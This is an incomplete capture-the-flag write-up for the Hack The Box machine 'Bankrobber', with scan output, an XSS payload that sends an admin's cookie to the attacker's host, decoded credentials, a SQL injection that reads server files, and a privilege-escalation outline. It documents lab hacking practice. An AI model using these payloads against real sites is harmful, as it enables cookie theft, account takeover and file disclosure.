









# Bankrobber (`10.10.10.154`)

## Summary

This is a terrible writeup. One of the lowest quality I have ever produced. Seriously, stop reading this right now and go read `0xdf`'s instead.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `bankrobber.htb` to `10.10.10.154`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports bankrobber.htb
# Nmap 7.80 scan initiated Tue Nov 17 21:39:11 2020 as: nmap -A -v -p- -Pn -oN allports bankrobber.htb
Nmap scan report for bankrobber.htb (10.10.10.154)
Host is up (0.12s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10 (90%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (90%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 10 1511 - 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.006 days (since Tue Nov 17 21:36:56 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h07m19s, deviation: 0s, median: 1h07m19s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-11-18T04:52:41
|_  start_date: 2020-11-18T04:44:35

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   41.01 ms  10.10.14.1
2   117.57 ms bankrobber.htb (10.10.10.154)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 17 21:45:57 2020 -- 1 IP address (1 host up) scanned in 405.68 seconds
```

The current attack surface is:

-

### HTTP (Port 80)

```bash
$ gobuster -u http://bankrobber.htb:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp"
/.hta (Status: 403) [Size: 1046]
/.hta.txt (Status: 403) [Size: 1046]
/.hta.html (Status: 403) [Size: 1046]
/.hta.php (Status: 403) [Size: 1046]
/.hta.asp (Status: 403) [Size: 1046]
/.hta.aspx (Status: 403) [Size: 1046]
/.hta.jsp (Status: 403) [Size: 1046]
/.htpasswd (Status: 403) [Size: 1046]
/.htpasswd.html (Status: 403) [Size: 1046]
/.htpasswd.php (Status: 403) [Size: 1046]
/.htpasswd.asp (Status: 403) [Size: 1046]
/.htpasswd.aspx (Status: 403) [Size: 1046]
/.htpasswd.jsp (Status: 403) [Size: 1046]
/.htpasswd.txt (Status: 403) [Size: 1046]
/.htaccess (Status: 403) [Size: 1046]
/.htaccess.txt (Status: 403) [Size: 1046]
/.htaccess.html (Status: 403) [Size: 1046]
/.htaccess.php (Status: 403) [Size: 1046]
/.htaccess.asp (Status: 403) [Size: 1046]
/.htaccess.aspx (Status: 403) [Size: 1046]
/.htaccess.jsp (Status: 403) [Size: 1046]
/ADMIN (Status: 301) [Size: 340]
/Admin (Status: 301) [Size: 340]
/Index.php (Status: 200) [Size: 8245]
/Login.php (Status: 302) [Size: 0]
/admin (Status: 301) [Size: 340]
/aux (Status: 403) [Size: 1046]
/aux.asp (Status: 403) [Size: 1046]
/aux.aspx (Status: 403) [Size: 1046]
/aux.jsp (Status: 403) [Size: 1046]
/aux.txt (Status: 403) [Size: 1046]
/aux.html (Status: 403) [Size: 1046]
/aux.php (Status: 403) [Size: 1046]
/cgi-bin/ (Status: 403) [Size: 1060]
/cgi-bin/.html (Status: 403) [Size: 1046]
/com1 (Status: 403) [Size: 1046]
/com1.txt (Status: 403) [Size: 1046]
/com1.html (Status: 403) [Size: 1046]
/com1.php (Status: 403) [Size: 1046]
/com1.asp (Status: 403) [Size: 1046]
/com1.aspx (Status: 403) [Size: 1046]
/com1.jsp (Status: 403) [Size: 1046]
/com2 (Status: 403) [Size: 1046]
/com2.txt (Status: 403) [Size: 1046]
/com2.html (Status: 403) [Size: 1046]
/com2.php (Status: 403) [Size: 1046]
/com2.asp (Status: 403) [Size: 1046]
/com2.aspx (Status: 403) [Size: 1046]
/com2.jsp (Status: 403) [Size: 1046]
/com3 (Status: 403) [Size: 1046]
/com3.txt (Status: 403) [Size: 1046]
/com3.html (Status: 403) [Size: 1046]
/com3.php (Status: 403) [Size: 1046]
/com3.asp (Status: 403) [Size: 1046]
/com3.aspx (Status: 403) [Size: 1046]
/com3.jsp (Status: 403) [Size: 1046]
/com4 (Status: 403) [Size: 1046]
/com4.txt (Status: 403) [Size: 1046]
/com4.html (Status: 403) [Size: 1046]
/com4.php (Status: 403) [Size: 1046]
/com4.asp (Status: 403) [Size: 1046]
/com4.aspx (Status: 403) [Size: 1046]
/com4.jsp (Status: 403) [Size: 1046]
/con (Status: 403) [Size: 1046]
/con.html (Status: 403) [Size: 1046]
/con.php (Status: 403) [Size: 1046]
/con.asp (Status: 403) [Size: 1046]
/con.aspx (Status: 403) [Size: 1046]
/con.jsp (Status: 403) [Size: 1046]
/con.txt (Status: 403) [Size: 1046]
/css (Status: 301) [Size: 338]
/elements.html (Status: 200) [Size: 34812]
/fonts (Status: 301) [Size: 340]
/generic.html (Status: 200) [Size: 13343]
/img (Status: 301) [Size: 338]
/index.php (Status: 200) [Size: 8245]
/index.php (Status: 200) [Size: 8245]
/js (Status: 301) [Size: 337]
/licenses (Status: 403) [Size: 1205]
/link.php (Status: 200) [Size: 0]
/login.php (Status: 302) [Size: 0]
/logout.php (Status: 302) [Size: 0]
/lpt1 (Status: 403) [Size: 1046]
/lpt1.html (Status: 403) [Size: 1046]
/lpt1.php (Status: 403) [Size: 1046]
/lpt1.asp (Status: 403) [Size: 1046]
/lpt1.aspx (Status: 403) [Size: 1046]
/lpt1.jsp (Status: 403) [Size: 1046]
/lpt1.txt (Status: 403) [Size: 1046]
/lpt2 (Status: 403) [Size: 1046]
/lpt2.txt (Status: 403) [Size: 1046]
/lpt2.html (Status: 403) [Size: 1046]
/lpt2.php (Status: 403) [Size: 1046]
/lpt2.asp (Status: 403) [Size: 1046]
/lpt2.aspx (Status: 403) [Size: 1046]
/lpt2.jsp (Status: 403) [Size: 1046]
/notes.txt (Status: 200) [Size: 133]
/nul (Status: 403) [Size: 1046]
/nul.asp (Status: 403) [Size: 1046]
/nul.aspx (Status: 403) [Size: 1046]
/nul.jsp (Status: 403) [Size: 1046]
/nul.txt (Status: 403) [Size: 1046]
/nul.html (Status: 403) [Size: 1046]
/nul.php (Status: 403) [Size: 1046]
/phpmyadmin (Status: 403) [Size: 1205]
/prn (Status: 403) [Size: 1046]
/prn.txt (Status: 403) [Size: 1046]
/prn.html (Status: 403) [Size: 1046]
/prn.php (Status: 403) [Size: 1046]
/prn.asp (Status: 403) [Size: 1046]
/prn.aspx (Status: 403) [Size: 1046]
/prn.jsp (Status: 403) [Size: 1046]
/register.php (Status: 200) [Size: 0]
/server-info (Status: 403) [Size: 1205]
/server-status (Status: 403) [Size: 1205]
/user (Status: 301) [Size: 339]
/webalizer (Status: 403) [Size: 1046]
```





After logging in, I make a transfer request with an XSS payload to steal the admin cookie.





```html
<script>new Image().src="http://10.10.14.27/missing?output="+document.cookie;</script>
```

After a few minutes, a request comes through.



```bash
# Raw cookies
username=YWRtaW4%3D
password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D

# URL Decoded
username=YWRtaW4=
password=SG9wZWxlc3Nyb21hbnRpYw==

# base64 Decoded
$ echo YWRtaW4= | base64 -d
admin%

$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
Hopelessromantic%
```

`admin:Hopelessromantic` are the admin credentials.


term=1' UNION SELECT 1, LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php'), 3 -- -




```
$user = 'root';
$pass = 'Welkom1!';
```

## Reverse Shell







## Privilege Escalation

Port forward `910` to my local machine, brute force the PIN (`0021`), and then find a simple stack overflow in `C:\bankv2.exe`.

## Root
